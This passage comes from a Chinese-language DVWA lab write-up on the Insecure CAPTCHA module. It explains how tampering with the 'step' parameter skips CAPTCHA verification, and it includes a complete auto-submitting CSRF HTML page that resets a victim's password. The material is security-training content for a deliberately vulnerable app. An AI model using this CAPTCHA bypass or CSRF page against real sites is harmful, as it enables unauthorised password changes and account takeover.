 可以看到，服务器将改密操作分成了两步，第一步检查用户输入的验证码，验证通过后，服务器返回表单，第二步客户端提交 post 请求，服务器完成更改密码的操作。但是，这其中存在明显的逻辑漏洞，服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码。


**通过构造参数绕过验证过程的第一步**

首先输入密码，点击 Change 按钮，抓包，更改 step 参数绕过验证码：

![image](../../../img/渗透/实验/dvwa/dvwa38.png)

ps:因为没有翻墙，所以没能成功显示验证码，发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

由于没有任何的防 CSRF 机制，我们可以轻易地构造攻击页面，页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```
